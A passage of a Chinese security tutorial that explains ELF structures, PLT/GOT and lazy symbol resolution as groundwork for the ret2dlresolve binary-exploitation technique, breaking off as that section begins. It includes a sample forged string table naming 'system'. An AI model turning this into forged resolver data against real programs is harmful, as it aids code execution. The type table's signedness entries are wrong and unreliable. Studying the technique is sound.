# 从0-1详解剖析ret2dlresolve-先知社区

> **来源**: https://xz.aliyun.com/news/17612  
> **文章ID**: 17612

---

# ELF文件格式

ELF（Executable and Linkable Format）是一种常见的可执行文件和可链接文件格式，主要用于Linux和类Unix系统。ELF 文件可以包含不同的类型，常见的 ELF 文件类型包括：

* 可执行文件（`ET_EXEC`）：这种类型的 ELF 文件是可直接执行的程序，可以在操作系统上运行。
* 共享目标文件（`ET_DYN`）：这种类型的 ELF 文件是可被动态链接的共享库，可以在运行时与其他程序动态链接。该类型文件后缀名为 `.so` 。
* 可重定位文件（`ET_REL`）：这种类型的 ELF 文件是编译器生成的目标文件，通常用于将多个目标文件链接到一个可执行文件或共享库中。该类型文件后缀名为 `.o` ，静态链接库（`.a`）也可以归为这一类。
* 核心转储文件（`ET_CORE`）：这种类型的 ELF 文件是操作系统在程序崩溃或发生错误时生成的核心转储文件，用于调试和分析程序崩溃的原因。

ELF 文件结构及相关常数被定义在 `/usr/include/elf.h` 里，因为 ELF 文件在各种平台下都通用，ELF文件有 32 位版本和 64 位版本。32 位版本与 64 位版本的 ELF 文件的格式基本是一样的（部分结构体为了优化对齐后大小调整了成员的顺序），只不过有些成员的大小不一样。

`elf.h` 使用 typedef 定义了一套自己的变量体系：

|  |  |  |  |
| --- | --- | --- | --- |
| 自定义类型 | 描述 | 原始类型 | 长度（字节） |
| `Elf32_Addr` | 32 位版本程序地址 | `uint32_t` | 4 |
| `Elf32_Half` | 32 位版本的无符号短整型 | `uint16_t` | 2 |
| `Elf32_Off` | 32 位版本的偏移地址 | `uint32_t` | 4 |
| `Elf32_Sword` | 32 位版本有符号整型 | `uint32_t` | 4 |
| `Elf32_Word` | 32 位版本无符号整型 | `int32_t` | 4 |
| `Elf64_Addr` | 64 位版本程序地址 | `uint64_t` | 8 |
| `Elf64_Half` | 64 位版本的无符号短整型 | `uint16_t` | 2 |
| `Elf64_Off` | 64 位版本的偏移地址 | `uint64_t` | 8 |
| `Elf64_Sword` | 64 位版本有符号整型 | `uint32_t` | 4 |
| `Elf64_Word` | 64 位版本无符号整型 | `int32_t` | 4 |
| `Elf64_Section` | 64 位版本符号所在段（section）表的索引 | `uint16_t` | 2 |
| `Elf64_Xword` | 64 位版本符号所占内存大小 | `uint64_t` | 8 |

ELF 主要管理结构为文件头，程序头表（可重定位文件没有）和节表，其他部分有一个个节组成，多个属性相同的节构成一个段。对于节的介绍这里按照静态链接相关和动态链接相关分别介绍。



## 文件头

我们这里以 32 位版本的文件头结构 `Elf32_Ehdr` 作为例子来描述，它的定义如下：

```
/* The ELF file header.  This appears at the start of every ELF file.  */

#define EI_NIDENT (16)

typedef struct
{
  unsigned char	e_ident[EI_NIDENT];	/* Magic number and other info */
  Elf32_Half	e_type;			/* Object file type */
  Elf32_Half	e_machine;		/* Architecture */
  Elf32_Word	e_version;		/* Object file version */
  Elf32_Addr	e_entry;		/* Entry point virtual address */
  Elf32_Off	e_phoff;		/* Program header table file offset */
  Elf32_Off	e_shoff;		/* Section header table file offset */
  Elf32_Word	e_flags;		/* Processor-specific flags */
  Elf32_Half	e_ehsize;		/* ELF header size in bytes */
  Elf32_Half	e_phentsize;		/* Program header table entry size */
  Elf32_Half	e_phnum;		/* Program header table entry count */
  Elf32_Half	e_shentsize;		/* Section header table entry size */
  Elf32_Half	e_shnum;		/* Section header table entry count */
  Elf32_Half	e_shstrndx;		/* Section header string table index */
} Elf32_Ehdr;
```

* `e_ident`**：ELF 文件的魔数和其他信息。**

* 前 4 字节为 `ELFMAG` 即 `\x7fELF` 。
* 第 5 字节为 ELF 文件类型，值为 `ELFCLASS32(1)` 代表 32 位，值为 `ELFCLASS64(2)` 代表 64 位。
* 第 6 字节为 ELF 的字节序，0 为无效格式，1 为小端格式，2 为大端格式。
* 第 7 字节为 ELF 版本，一般为 1 ，即 1.2 版本。
* 后面 9 字节没有定义一般填 0 ，有些平台会使用这 9 个字节作为扩展标志。

* `e_type`**：表示ELF文件类型，如可执行文件、共享对象文件（**`.so`**）、可重定位文件（**`.o`**）等。**
* `e_machine`：表示目标体系结构，即程序的目标平台，如 x86、ARM 等。相关常量以 `EM_` 开头。
* `e_version`：ELF 文件版本号，一般为常数 1 。
* `e_entry`**：表示程序入口点虚拟地址。操作系统加载完程序后从这个地址开始执行进程的命令。可重定位文件一般没有入口地址，则这个值为 0 。**
* `e_phoff`**：表示程序头表的文件偏移量。**
* `e_shoff`**：表示节表的文件偏移量。**
* `e_flags`：表示处理器特定标志。
* `e_ehsize`**：表示 ELF 文件头的大小。**
* `e_phentsize`**：表示程序头表中每个表项的大小。**
* `e_phnum`**：表示程序头表中表项的数量。**
* `e_shentsize`**：表示节表中每个表项的大小。**
* `e_shnum`**：表示节表中表项的数量。**
* `e_shstrndx`：**表示节表中字符串表的索引。**

## 程序头表

ELF 可执行文件中有一个专门的数据结构叫做程序头表（Program Header Table）用来保存**段**（**注意不是节**）的信息。因为 ELF **目标文件**不需要被装载，所以它没有程序头表，而 ELF 的**可执行文件**和**共享库文件**都有程序头表。

程序头表是由 `Elf*_Phdr` 组成的数组，用于描述 ELF 文件中每个节的属性和信息。

```
/* Program segment header.  */

typedef struct
{
  Elf32_Word	p_type;			/* Segment type */
  Elf32_Off	p_offset;		/* Segment file offset */
  Elf32_Addr	p_vaddr;		/* Segment virtual address */
  Elf32_Addr	p_paddr;		/* Segment physical address */
  Elf32_Word	p_filesz;		/* Segment size in file */
  Elf32_Word	p_memsz;		/* Segment size in memory */
  Elf32_Word	p_flags;		/* Segment flags */
  Elf32_Word	p_align;		/* Segment alignment */
} Elf32_Phdr;
```

* `p_type`：段的类型，例如可执行段、数据段等。
* `p_offset`：段在文件中的偏移量。
* `p_vaddr`：段在虚拟内存中的起始地址。
* `p_paddr`：段在物理内存中的起始地址。因为 ELF 还没装载不知道物理地址，所以作为保留字段。通常和 `p_vaddr` 的值是一样的。
* `p_filesz`：段在文件中的大小。
* `p_memsz`：段在内存中的大小。
* `p_flags`：段的标志，例如可读、可写、可执行等。
* `p_align`：段在文件和内存中的对齐方式。段的的加载地址要能被 2p\_align2p\_align 整除。

## 节表

ELF文件里面定义一个固定长度的 `Elf*_Shdr` 结构体数组用来存放**节**相关信息，与 PE 文件的节表相似。

> 在 ELF 文件中，**段**（Segment）和**节**（Section）是两个不同的概念，它们在文件结构中具有不同的作用和目的。
>
> 段（Segment）是一种逻辑上的组织单位，它定义了可执行文件或共享库在内存中的一个连续区域。每个段都有自己的虚拟地址空间，可以包含多个节。常见的段类型包括代码段（`.text`），数据段（`.data`、`.bss`），只读数据段（`.rodata`）等。段在加载和执行时被操作系统用来管理内存，设置内存保护属性以及指定虚拟地址空间的起始地址和大小。
>
> 节（Section）是一种更细粒度的组织单位，它包含了文件中的特定类型的数据或代码。每个节都有自己的名字、类型和内容。常见的节类型包括代码节（`.text`），数据节（`.data`、`.bss`），只读数据节（`.rodata`），符号表节（`.symtab`），字符串表节（`.strtab`）等。节不直接参与内存的加载和执行，而是用于链接器（Linker）和调试器（Debugger）等工具对文件进行处理和分析。
>
> **通俗的讲，在装载程序的时候为了节省内存会将 ELF 文件中属性相同的节（Section）合并成在一个段（Segment）加载到内存中。**
>
> 段和节之间存在对应关系和映射关系：
>
> * 一个段可以包含多个节，这些节的内容和属性都属于该段。
> * 段提供了对应于虚拟内存的逻辑映射，而节则提供了对应于文件的逻辑映射。
> * 段的加载和执行涉及内存管理和地址映射，而节则用于链接和调试过程中的符号解析、重定位等操作。

其中 `Elf32_Shdr` 定义如下：

```
/* Section header.  */

typedef struct
{
  Elf32_Word	sh_name;		/* Section name (string tbl index) */
  Elf32_Word	sh_type;		/* Section type */
  Elf32_Word	sh_flags;		/* Section flags */
  Elf32_Addr	sh_addr;		/* Section virtual addr at execution */
  Elf32_Off	sh_offset;		/* Section file offset */
  Elf32_Word	sh_size;		/* Section size in bytes */
  Elf32_Word	sh_link;		/* Link to another section */
  Elf32_Word	sh_info;		/* Additional section information */
  Elf32_Word	sh_addralign;		/* Section alignment */
  Elf32_Word	sh_entsize;		/* Entry size if section holds table */
} Elf32_Shdr;
```

* `sh_name`**：表示节的名称在字符串表中的索引。字符串表节存储了所有节的名称，**`sh_name`**指定了节的名称在字符串表中的位置。**
* `sh_type`**：表示节的类型，指定了节的用途和属性。常见的类型包括代码段（**`SHT_PROGBITS(1)`**）、数据段（**`SHT_PROGBITS(1)`**）、符号表（**`SHT_SYMTAB(2)`**）、字符串表（**`SHT_STRTAB(3)`**）等。**
* `sh_flags`：表示节的标志，用于描述节的特性和属性。标志的具体含义取决于节的类型和上下文。
* `sh_addr`**：表示节的虚拟地址，只在可执行文件中有意义。对于可执行文件，**`sh_addr`**指定了节在内存中的加载地址，如果该节不可被加载，则该值为 0 。**
* `sh_offset`**：表示节在文件中的偏移量，指定了节在文件中的位置。对于 bss 段来说该值没有意义。**
* `sh_size`**：表示节的大小，指定了节所占据的字节数。**
* `sh_link`：表示链接到的其他节的索引，用于建立节之间的关联关系，具体含义依赖于节的类型。
* `sh_info`：附加信息，具体含义依赖于节的类型。
* `sh_addralign`：表示节的地址对齐要求，指定了节在内存中的对齐方式。即 `sh_addr` 需要满足 sh\_addrmod  2sh\_addralign=0sh\_addrmod2sh\_addralign=0 。如果 `sh_addralign` 为 0 或 1 表示该段没有对齐要求。
* `sh_entsize`**：表示节中每个项的大小，如果该字段为 0 说明节中不包含固定大小的项。**

ELF 中常见的节如下：

* `.text`：代码段（Code Section），用于存储程序的可执行指令。
* `.rodata`：只读数据段（Read-Only Data Section），用于存储只读的常量数据，例如字符串常量。
* `.data`：数据段（Data Section），用于存储已初始化的全局变量和静态变量。
* `.bss`：未初始化的数据段（Block Started by Symbol），用于存储未初始化的全局变量和静态变量。它不占用实际的文件空间，而是在运行时由系统自动初始化为零。
* `.symtab`：符号表节（Symbol Table Section），用于存储程序的符号表信息，包括函数、变量和其他符号的名称、类型和地址等。
* `.strtab`：字符串表节（String Table Section），用于存储字符串数据，如节名称、符号名称等。字符串表节被多个其他节引用，通过偏移量和索引来访问具体的字符串。
* `.rel.text` 或 `.rela.text`：代码重定位节（Relocation Section），用于存储代码段中的重定位信息，以便在链接时修正代码中的符号引用。
* `.rel.data` 或 `.rela.data`：数据重定位节（Relocation Section），用于存储数据段中的重定位信息，以便在链接时修正数据段中的符号引用。
* `.dynamic`：动态节（Dynamic Section），用于存储程序的动态链接信息，包括动态链接器需要的重定位表、共享对象的名称、版本信息等。
* `.note`：注释节（Note Section），用于存储与程序或库相关的注释或调试信息。

## 静态链接相关

### 符号表（.symtab）

**注意：符号表除了静态链接外没有用，但是程序为了方便调试会保留符号表，我们可以通过**`strip + 程序名`**的方式将符号表去除，这就是为什么有的 pwn 题的附件没有函数和变量名而有的却有。**

ELF 文件中的符号表往往是文件中的一个段，段名一般叫 `.symtab` 。符号表是一个 `Elf*_Sym` 结构（32 位 ELF 文件）的数组，每个 `Elf*_Sym` 结构对应一个符号。

```
/* Symbol table entry.  */  
  
typedef struct  
{  
  Elf32_Word	st_name;		/* Symbol name (string tbl index) */  
  Elf32_Addr	st_value;		/* Symbol value */  
  Elf32_Word	st_size;		/* Symbol size */  
  unsigned char	st_info;		/* Symbol type and binding */  
  unsigned char	st_other;		/* Symbol visibility */  
  Elf32_Section	st_shndx;		/* Section index */  
} Elf32_Sym;
```

* `st_name`：符号名称在**字符串**表中的偏移量。
* `st_value`：符号的值，即符号的地址或偏移量。

* 如果该符号在**目标文件**中，如果是符号的定义并且该符号不是 `COMMON` 块类型的则 `st_value` 表示该符号在段中的**偏移**。
* 在**目标文件**中，如果符号是 `COMMON` 块类型的则 `st_value` 表示该符号的**对齐属性**。
* 在**可执行文件**中，`st_value` 表示符号的**虚拟地址**。

* `st_size`：符号的大小，如果符号是一个函数，则表示函数的大小。如果该值为 0 表示符号的大小为 0 或未知。
* `st_info`：该字段是一个字节，包含符号的类型和绑定信息。符号类型包括函数、数据、对象等，符号绑定包括局部符号、全局符号、弱符号等。该字段的高 4 位表示符号的类型，低 4 位表示符号的绑定信息。
* `st_other`：保留字段，通常为 0 。
* `st_shndx`：通常为符号所在**节**的索引。

* 如果符号是一个常量，该字段为 `SHN_ABS`（初始值不为 0 的全局变量） 或 `SHN_COMMON`（初始值为 0 的全局变量）。
* 如果该符号未定义但是在该文件中被引用到，说明该符号可能定义在其他目标文件中，则该字段为 `SHN_UNDEF` 。

### 重定位表（.rel.text/.rel.data）

重定位表是一个 `Elf*_Rel` 结构的数组，每个数组元素对应一个重定位入口。重定位表主要有`.rel.text` 或 `.rela.text`，即代码重定位节（Relocation Section）和 `.rel.data` 或 `.rela.data`：数据重定位节（Relocation Section）。

```
/* Relocation table entry without addend (in section of type SHT_REL).  */  
  
typedef struct  
{  
  Elf32_Addr	r_offset;		/* Address */  
  Elf32_Word	r_info;			/* Relocation type and symbol index */  
} Elf32_Rel;
```

* `r_offset`：需要进行重定位的位置的偏移量或地址。这个位置通常是指令中的某个操作数或数据的地址，需要在链接时进行修正，以便正确地引用目标符号。

* 对于可执行文件或共享库，`r_offset` 表示需要修改的位置在内存中的位置（用于动态链接）。
* 对于**可重定位文件**，`r_offset` 表示需要修改的位置相对于段起始位置的偏移（用于静态链接）。

* `r_info`：低 8 位表示符号的重定位类型，重定位类型指定了进行何种类型的修正，例如绝对重定位、PC 相对重定位等。高 24 位表示该符号在**符号表**中的索引，用于解析重定位所引用的符号。

### 字符串表（.strtab）

ELF 文件中用到了很多字符串，比如段名、变量名等。因为字符串的长度往往是不定的，所以用固定的结构来表示它比较困难。一种很常见的做法是把字符串集中起来存放到一个表，然后使用字符串在表中的偏移来引用字符串。

通过这种方法，在ELF文件中引用字符串只须给出一个数字下标即可，不用考虑字符串长度的问题。一般字符串表在ELF文件中也以段的形式保存，常见的段名为“`.strtab`”或“`.shstrtab`”。这两个字符串表分别为字符串表（String Table）和段表字符串表（Section Header String Table）。顾名思义，字符串表用来保存普通的字符串，比如符号的名字；段表字符串表用来保存段表中用到的字符串，最常见的就是段名（`sh_name` ）。

注意，在字符串表中的每个字符串的**开头**和**结尾**都有一个 `\x00` 填充。  
例如：  
`fake_dynstr = '\x00libc.so.6\x00_IO_stdin_used\x00stdin\x00strlen\x00read\x00stdout\x00setbuf\x00__libc_start_main\x00system\x00'`

## 动态链接相关

### .interp 段

在动态链接的 ELF 可执行文件中，有一个专门的段叫做 `.interp` 段（“interp”是“interpreter”（解释器）的缩写）。

`.interp` 的内容很简单，里面保存的就是一个字符串 `/lib64/ld-linux-x86-64.so.2` ，这个字符串就是可执行文件所需要的动态链接器的路径。

通常系统通过判断一个 ELF 程序是否有 `.interp` 来判断该 ELF 文件是否为动态链接程序。

### .dynamic 段

动态链接 ELF 中最重要的结构是 `.dynamic` 段，这个段里面保存了动态链接器所需要的基本信息，比如依赖于哪些共享对象、动态链接符号表的位置、动态链接重定位表的位置、共享对象初始化代码的地址等。`.dynamic` 段是由`Elf*_Dyn` 构成的结构体数组。

```
/* Dynamic section entry.  */  
  
typedef struct  
{  
  Elf32_Sword	d_tag;			/* Dynamic entry type */  
  union  
    {  
      Elf32_Word d_val;			/* Integer value */  
      Elf32_Addr d_ptr;			/* Address value */  
    } d_un;  
} Elf32_Dyn;
```

`Elf32_Dyn` 结构由一个类型值加上一个附加的数值或指针，对于不同的类型，后面附加的数值或者指针有着不同的含义。我们这里列举几个比较常见的类型值（这些值都是定义在 `elf.h` 里面的宏），

* `DT_SYMTAB`：指定了符号表的地址，`d_ptr` 表示 `.dynsym` 的地址。
* `DT_STRTAB`：指定了字符串表的地址，`d_ptr` 表示 `.synstr` 的地址。
* `DT_STRSZ`：指定了字符串表的大小，`d_val` 表示大小。
* `DT_HASH`：指定了符号哈希表的地址，用于加快符号查找的速度，`d_ptr` 表示 `.hash` 的地址。
* `DT_SONAME`：指定了共享库的名称。
* `DT_RPATH`：指定了库搜索路径（已废弃，不推荐使用）。
* `DT_INIT`：指定了初始化函数的地址，动态链接器在加载可执行文件或共享库时会调用该函数。
* `DT_FINI`：指定了终止函数的地址，动态链接器在程序结束时会调用该函数。
* `DT_NEEDED`：指定了需要的共享库的名称。
* `DT_REL/DT_RELA`：指定了重定位表的地址。

### 动态符号表（.dynsym）

为了完成动态链接，最关键的还是所依赖的符号和相关文件的信息。我们知道在静态链接中，有一个专门的段叫做符号表 `.symtab`（Symbol Table），里面保存了所有关于该目标文件的符号的定义和引用。为了表示动态链接这些模块之间的符号导入导出关系，ELF 专门有一个叫做动态符号表（Dynamic Symbol Table）的段用来保存这些信息，这个段的段名通常叫做 `.dynsym`（Dynamic Symbol），同样也是由 `Elf*_Sym` 构成的结构体数组。

与 `.symtab` 不同的是，`.dynsym` 只保存了与动态链接相关的符号，对于那些模块内部的符号，比如模块私有变量则不保存。很多时候动态链接的模块同时拥有 `.dynsym` 和 `.symtab` 两个表，`.symtab` 中往往保存了所有符号，包括 `.dynsym` 中的符号。

与 `.symtab` 类似，动态符号表也需要一些辅助的表，比如用于保存符号名的字符串表。静态链接时叫做符号字符串表 `.strtab`（String Table），在这里就是动态符号字符串表 `.dynstr`（Dynamic String Table）；由于动态链接下，我们需要在程序运行时查找符号，为了加快符号的查找过程，往往还有辅助的符号哈希表（`.hash`）。

### 动态链接重定位表（.rel.dyn/.rel.data）

共享对象需要重定位的主要原因是导入符号的存在。动态链接下，无论是可执行文件或共享对象，一旦它依赖于其他共享对象，也就是说有导入的符号时，那么它的代码或数据中就会有对于导入符号的引用。在编译时这些导入符号的地址未知，在静态链接中，这些未知的地址引用在最终链接时被修正。但是在动态链接中，导入符号的地址在运行时才确定，所以需要在运行时将这些导入符号的引用修正，即需要重定位。

共享对象的重定位与我们在前面“静态链接”中分析过的目标文件的重定位十分类似，唯一有区别的是目标文件的重定位是在静态链接时完成的，而共享对象的重定位是在装载时完成的。在静态链接中，目标文件里面包含有专门用于表示重定位信息的重定位表，比如 `.rel.text` 表示是代码段的重定位表，`.rel.data` 是数据段的重定位表。

动态链接的文件中，也有类似的重定位表分别叫做 `.rel.dyn` 和 `.rel.plt` ，它们分别相当于 `.rel.data` 和 `.rel.text` 。`.rel.dyn` 实际上是对数据引用的修正，它所修正的位置位于 `.got` 以及数据段；而 `.rel.plt` 是对函数引用的修正，它所修正的位置位于 `.got.plt` 。

### PLT 表（.plt）

在未开启 FULL RELRO 的情况下 PLT 表的结构如下图所示， PLT 表在 `.plt`（有的还包括 `.plt.got`） 中。

  
PLT 表的形式如下所示：  


其中 n 为函数 `bar` 在 GOT 表中的值的索引，`bar@GOT` 中初始值为 `jmp *(bar@GOT)` 指令的下一条指令，也就是说第一次调用 `bar` 函数的时候会继续执行跳转至 `PLT0` 进行 `bar@GOT` 的重定位并调用 `bar` 函数；第二次调用 `bar` 函数的时候由于 `bar@GOT` 已完成重定位因此会直接跳转至 `bar` 函数。

在开启 FULL RELRO 的情况下 PLT 表的结构如下图所示，此时的 PLT 表在 `.plt.sec` 而不是 `.plt` 中。

### GOT 表（.got/.got.plt）

ELF 将 GOT 拆分成了两个表叫做 `.got` 和 `.got.plt` 。其中 `.got` 用来保存全局变量引用的地址，`.got.plt` 用来保存函数引用的地址，也就是说，所有对于外部函数的引用全部被分离出来放到了 `.got.plt` 中（当然有的 ELF 文件可能吧这两个表合并为一个 `.got` 表，结构等同于后面提到的 `.got.plt`）。另外 `.got.plt` 还有一个特殊的地方是它的前三项是有特殊意义的，分别含义如下：

* 第一项保存的是 `.dynamic` 段的偏移（也有可能是 `.dynamic` 段的地址）。
* 第二项是一个 `link_map` 的结构体指针，里面保存着动态链接的一些相关信息，是重定位函数 `_dl_runtime_resolve` 的第一个参数。
* 第三项保存的是 `_dl_runtime_resolve` 的地址。

## 延迟绑定流程梳理

第一次调用puts  
  
第二次调用puts  
其中在第一次调用 `puts` 函数时调用的 `_dl_runtime_resolve` 函数的具体实现为：

* 用第一个参数 `link_map` 访问 `.dynamic` ，取出 `.dynstr` ， `.dynsym` ， `.rel.plt` 的指针。
* `.rel.plt + 第二个参数` 求出当前函数的重定位表项 `Elf32_Rel` 的指针，记作 `rel` 。
* `rel->r_info >> 8` 作为 `.dynsym` 的下标，求出当前函数的符号表项 `Elf32_Sym` 的指针，记作 `sym` 。
* `.dynstr + sym->st_name` 得出符号名字符串指针。
* 在动态链接库查找这个函数的地址，并且把地址赋值给 `*rel->r_offset` ，即 GOT 表。
* 调用这个函数。

# ret2dlresolve

## 相关结构

主要有 `.dynamic` 、`.dynstr` 、`.dynsym` 和 `.rel.plt` 四个重要的 section 。

结构及关系如下如图（以 32 位为例）：  


### Dyn

```
/* Dynamic section entry.  */  
  
typedef struct  
{  
  Elf32_Sword	d_tag;			/* Dynamic entry type */  
  union  
    {  
      Elf32_Word d_val;			/* Integer value */  
      Elf32_Addr d_ptr;			/* Address value */  
    } d_un;  
} Elf32_Dyn;  
  
typedef struct  
{  
